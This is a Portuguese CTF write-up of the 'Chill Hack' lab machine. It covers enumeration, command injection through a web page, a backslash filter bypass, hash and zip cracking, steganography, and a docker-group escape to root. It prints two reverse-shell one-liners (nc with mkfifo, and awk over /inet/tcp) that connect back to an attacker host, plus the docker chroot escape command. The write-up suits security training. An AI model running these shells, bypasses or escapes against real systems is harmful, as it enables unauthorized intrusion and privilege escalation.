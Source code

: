 # _**Chill Hack CTF**_
![](chill.jpg)

## _**Enumeração**_
Primeiro, começamos com um scan Nmap
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```  
![](scan_nmap.jpg)  

Vamos, primeiro, realizar login no serviço _ftp_ e verificar _note.txt_  

![](note_txt.jpg)  

Estranho, não me diz muita coisa
Vamos continuar com um scan Gobuster para verificar diretórios escondidos
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Disocvery/Web-content/common.txt
> ```  
![](scan_gobuster.jpg)  

Temos alguns diretórios que podemos explorar
Vamos começar com o que chama mais a atenção, <mark>/secret</mark>  

![](command.jpg)  

Execução de comandos
Vamos tentar alguns  

![](id.jpg)  

Vamos verificar se ele <mark>executa/possui python</mark>  

![](python.jpg)  

É, parece que não
Vamos com ```sudo -l```  

![](sudo.jpg)  

Temos um script que pode ser executado por nós sem requisição de senha!  
Vamos tentar com o comando abaixo
> ```bash
> sudo -u apaar /home/apaar/.helpline.sh
> ```  
![](helpline.jpg)  

Parece que sim. Vamos tentar algo a mais  
Após muitas tentativas, foi descoberto que o comando ```echo *``` pode ser executado e é executado antes de <mark>/home/apaar/.helpline.sh</mark>  

![](echo.jpg)  

Mas acaba por não ser tão útil  
Tentamos também ```find```, funciona normalmente, mas não podemos fazer muito  
Outro comando é ```wget```  
Criamos um script ```.sh``` para tentarmos obtermos um _shell reverso_  
Realizamos upload via _http server_ com python  
Damos permissão de execução  
Mas ainda assim, não pode ser executado  

Outros comandos como ```ls, cat, sh``` e python não são executados  
Um script está rodando no background impedindo a consulta destas palavras, quase que como um firewall  
Ainda assim, alguns comandos passam  
Outra tentativa foi com ```awk```, poderíamos tentar algo  
No fim, acabei por desistir e fui procurar a solução para essa parte na Internet, e temos duas muito boas!  

## _**Ganhando acesso**_

A primeira envolve o uso de (\) para realizar um _bypass_ do filtro  
E a segunda envolve uma longa string de comandos com ```awk```  
Irei mostrar como realizar ambas abaixo  

<mark>A primeira:</mark>
Testando ```l\s -la```, conseguimos burlar o filtro
Buscando como podemos criar um shell reverso a partir disto, temos o seguinte trecho de código
> ```bash
> r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip_address] [port] >/tmp/f
> ```
![](bypass.jpg)

Isso claro, requer a troca do endereço IP e a porta, além de termos o netcat na nossa máquina atacante

<mark>A segunda</mark>  
Como o comando ```awk``` é executado, podemos criar um pequeno script para ser executado antes e dentro de BEGIN, junto de ```awk```  
Basta apenas configurar o endereço IP e a porta da máquina  
E claro, neste também precisamos do ```netcat```  
> ```bash
> awk 'BEGIN {s = "/inet/tcp/0/<machine_ip>/<port>"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null  
> ```
![](bypass2.jpg)  

Vamos continuar  
Após obter esse shell reverso, precisamos estabilizar ele  
Verificando, temos a versão do python e podemos usar o comando abaixo para isso
> ```bash
> python3 -c 'import pty; pty.spawn("/bin/bash")'
> ```

Ou alternativamente, temos também ```/dev/null```  
Voltando ao nosso arquivo lá do início, <mark>/home/apaar/.helpline.sh</mark>, vamos executar ele novamente e digitar ```/bin/sh``` nas duas vezes  
Verificando o id, temos agora que somos <mark>apaar</mark>  

![](apaar.jpg)  

Aquele arquivo, <mark>local.txt</mark> é um arquivo muito específico  
Verificando com ```cat``` (agora podemos usar), temos nossa primeira flag, a _flag de usuário_

Vamos continuar  
Primeiro, podemos melhorar a _shell_  
Vamos criar uma _chave ssh_ com o comando 
> ```bash
> ssh-keygen -t rsa -f apaar
> ```  
![](ssh_keygen.jpg)  

Copiando o conteúdo de _apaar.pub_ para _authorized_keys_ na nossa máquina-alvo  

![](keygen_copy.jpg)  

Na nossa máquina atacante, alteramos as permissões de <mark>apaar</mark> e em seguida, realizamos login via ssh na máquina-alvo
> ```bash
> ssh -i apaar apaar@[ip_address]
> ```  
![](ssh_login.jpg)  

Login feito com sucesso  
Após vasculhar e verificar muitos arquivos, um chamou atenção, especificamente em <mark>/var/www/files</mark>  
Temos _**hacker.php**_, _**index.php**_, _**account.php**_  
Verificando cada um, vemos algo de interessante  

![](php.jpg)  

Uma senha de login _root_ para um banco de dados  
Mas a questão é, onde fica esse banco de dados  
No scan nmap não foi apontado nenhum serviço do tipo SQL  
Perguntando ao GPT, temos alguns comandos que podemos usar na máquina-alvo para verificar se existe um serviço SQL ativo, já que tudo indica como _localhost_  

![](sql.jpg)  

Parece que temos algo na porta 3306, típica porta utilizada para serviços MySQL  
Vamos realizar login
> ```bash
> mysql -h localhost -u root -p'!@m+her00+@db' webportal
> ```  
![](login_sql.jpg)  

Vasculhando o banco de dados, temos o seguinte  

![](database.jpg)  

Usando crackstation, obtemos as duas senhas  

![](crack.jpg)  

Agora, podemos realizar login como Anurodh ou Apaar  
Tentando via ssh e até mesmo no próprio terminal, nada funcionou  
Voltamos para o início  
Verificando novamente os arquivos que estão em <mark>/var/www/files</mark> para ver se não foi deixado algo para trás  

![](another_php.jpg)  

Não consta nos arquivos que visitamos anteriormente via web  
Para baixar, vamos usar um servidor python como antes  
Primeiro, iniciamos com:
> ```bash
> python3 -m http.server [port]
> ```

Após, um:
> ```bash
> wget http://[ip_address]:[port]/images/hacker-with-laptop_23-2147985341.jpg wget
> ```  
![](image.jpg)  

Vamos usar steghide para tentar extrair seu conteúdo
> ```bash
> steghide extract -sf [image_name].jpg
> ```  
![](steghide.jpg)

Vamos usar agora <mark>John</mark> para quebrar esse zip e ter acesso ao seu conteúdo  

![](zip.jpg)

E temos nosso resultado: <mark>unzip backup.zip</mark>  
Um arquivo de nome _**source_code.php**_  
Verificando seu conteúdo com ```cat```, temos algo interessante  
Uma senha base64. Vamos decodificar  

![](base64.jpg)  

Temos a senha!  
Agora sim, podemos tentar (novamente) realizar login como <mark>anurodh</mark>  

![](su_login.jpg)  

Com sucesso!

## Escalando privilégios e _docker escape_

Um pouco de busca por flags, mas nada foi encontrado
Verificando o _**id**_, vemos que somos parte de um _docker_  

![](docker.jpg)  

Essa parte também fui buscar na Internet, como fazer para escapar de dentro de um docker chegando neste ![link](https://gtfobins.github.io/gtfobins/docker/#shell)  
Vamos executar o comando abaixo para escapar do docker  
> ```bash
> docker run -v /:/mnt --rm -it alpine chroot /mnt sh
> ```  
![](docker_escape.jpg)  

Com sucesso!
Agora, só buscar em _/root_ a nossa flag (e de brinde, um lindo banner)  

![](root_flag.jpg)  
